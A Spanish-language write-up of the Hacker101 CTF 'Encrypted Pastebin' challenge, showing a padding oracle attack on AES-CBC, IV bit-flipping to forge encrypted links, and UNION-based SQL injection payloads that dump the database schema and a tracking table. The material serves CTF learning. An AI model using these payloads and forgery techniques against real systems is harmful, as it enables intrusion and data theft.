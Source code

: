 # HackerOne Hacker101 CTF

## Encrypted Pastebin
### Web, Crypto - Hard (9/flag)

![](img/level03.png)

### Hints
* Flag0
	* What are these encrypted links?
	* Encodings like base64 often need to be modified for URLs. Thanks, HTTP
	* What is stopping you from modifying the data? Not having the key is no excuse
* Flag1
	* We talk about this in detail in the Hacker101 Crypto Attacks video
	* Don't think about this in terms of an attack against encryption; all you care about is XOR
* Flag2
	* Remember: XOR
	* Sometimes all it takes is toggling a few bits in the right place
* Flag3
	* You are on your own for this one. Good luck and have fun!

Enviamos el formulario, y se nos redirige a la siguiente URL en la que podemos leer los datos introducidos.
```
/?post=dJ4fmjaOU6tiS9pR2iL9se7rwpNkiEf3k1J2PcxegwXFglqaubU88BoYhrEQGWM9Yv6TSccTFHbVJJyrv6Bx!lvhQEfkxtNf2Ucg0cESVlG5zCDuLldRhmg8TpIvAcb!azaJt2SrkvwxWDE7TagOjk5bM0MjLc!RPiy-jZOfWyUylfLt09LwM9U2fck6kOOIwt6t-bZrfrvHkygbwOkdgQ~~
```

La flag0 la obtenemos al modificar este parámetro y hacer que ocurra un error en la aplicación.

![](img/level03-error.png)

Además, para cada error distinto que generamos, obtenemos algunas lineas del código fuente de la aplicación python.
Leyendo este código vemos cómo la aplicación utiliza AES para cifrar los datos en modo CBC. Ademas, estos datos están codificados en una modificación URL-safe de base64.

```python
main.py
    69  post = json.loads(decryptLink(postCt).decode('utf8'))
    71  if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
    72    abort(404)
    74  body = decryptPayload(post['key'], body)

common.py
    11  b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
  def unpad(data):
    19  padding = data[-1]
    22  raise PaddingException()
  
  def decryptPayload(key, data):
    36  cipher = AES.new(b64d(key), AES.MODE_CBC, iv)
    37  return unpad(cipher.decrypt(data))

  def decryptLink(data):
    46  data = b64d(data)
    48  cipher = AES.new(staticKey, AES.MODE_CBC, iv)
    49  return unpad(cipher.decrypt(data))
```

### Ataque Padding Oracle

Adaptamos el script de este writeup <https://github.com/p4-team/ctf/tree/master/2016-09-16-csaw/neo> y realizamos el ataque de padding oracle para descifrar el texto anterior. También es posible utilizar el código original <https://github.com/mpgn/Padding-oracle-attack/blob/master/exploit.py>.

[padding-oracle.py](scripts/level04-encrypted-pastebin/padding-oracle.py)

![](img/level03-paddingoracle.png)

Tras unos 30 minutos obtenemos el plaintext con la flag1 y los parametros *id* y *key*.

```
{"flag": "^FLAG^2cce3260ba36b355c591915f60e8315e7badb25b7b8b037c8952922b1513ef1e$FLAG$", "id": "67", "key": "7!c4zYim45oYGG36hvw4Pg~~"}
```

### Generar un bloque cifrado

Por la forma que se construye la cadena de bloques, si conocemos el plaintext del primer bloque, podemos alterar el IV para generar un bloque cifrado.

![](img/level03-cbc.png)

```
NewIV = IV ^ NewPlaintext ^ Plaintext
NewIV = IV ^ '{"id":"1"}\x06\x06\x06\x06\x06\x06' ^ '{"flag": "^FLAG^'
```

Lanzamos una petición con el nuevo IV y obtenemos la flag2 en el titulo del post.

Aunque esta petición se puede realizar de forma manual, se ha utilizado el script [exploit.py](scripts/level04-encrypted-pastebin/exploit.py)

```
exploit.py '{"id":"1"}'
Plain     7b22666c6167223a20225e464c41475e {"flag": "^FLAG^
New Plain 7b226964223a2231227d060606060606 {"id":"1"}
Crypt     1ac56a5802c831629f494362ae592483
newIV     1ac56550419531699d161b22e41e65db
http://HOST/?post=GsVlUEGVMWmdFhsi5B5l23lnIGk8LFSzidgCLUYaR90~

^FLAG^a88173e606bbbbc09dba45dd03416e54a0475f37f853cfd9948dd471432730db$FLAG$
Attempting to decrypt page with title: ^FLAG^515e0c8d9b161f119a62212600eed8b675d0d26f3b59760e55a96859b5cba6b2$FLAG$
Traceback (most recent call last):
  File "./main.py", line 74, in index
    body = decryptPayload(post['key'], body)
KeyError: 'key'
```

### Generar varios bloques cifrados

Combinando las técnicas anteriores, podemos generar varios bloques cifrados, en el ejemplo cifraremos el json `{"id":"1","key":"RYxUB!nb6e2NKkHpkdPZHA~~"}`

* Paso 1: Descifrar un bloque, por ejemplo 00000000000000000000000000000000. Para ello utilizamos la vulnerabilidad de Padding Oracle.
* Paso 2: Hacemos XOR del bloque descifrado con el ultimo bloque en claro que deseamos inyectar, el resultado se utilizará como ciphertext del penultimo bloque.
* Paso 3: De igual forma, desciframos este bloque, hacemos XOR con el texto en claro y el resultado se utiliza como ciphertext del bloque anterior.
* Paso 4: Repetimos el paso 3 las veces que sea necesario hasta obtener el primer bloque, que se corresponde con el IV.

![](img/level03-cbc2.png)

[exploit2.py](scripts/level04-encrypted-pastebin/exploit2.py)

### Inyección SQL
Si inyectamos una comilla obtenemos un error SQL,
`{"id":"1'"}`
```
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

Para aprovechar esta inyección, usaremos la técnica **UNION** para exfiltrar información de la base de datos.

```
{"id":"0 UNION SELECT database(),2"}
level3
```

```
{"id":"0 UNION SELECT group_concat(table_name),2 from information_schema.tables WHERE table_schema='level3'"}
posts,tracking
```

```
{"id":"0 UNION SELECT group_concat(concat(column_name,0x7c,table_name)),2 from information_schema.columns WHERE table_schema='level3'"}
id|posts
title|posts
body|posts
id|tracking
headers|tracking
```

```
{"id":"0 UNION SELECT group_concat(concat(id,0x7c,headers)),2 FROM tracking"}
1|Referer: http://127.0.0.1:14807/?post=jUDnHEBPdOZj-iuRLUHc4Y51TH2ypPt6Cv8faSGi7Lf1hja3540tMHMopZWL865jPa71bVLqBbUJoxiT-a-Iog~~
```
Finalmente, accedemos a la URL con la clave del ID 1 y obtenemos la última flag.

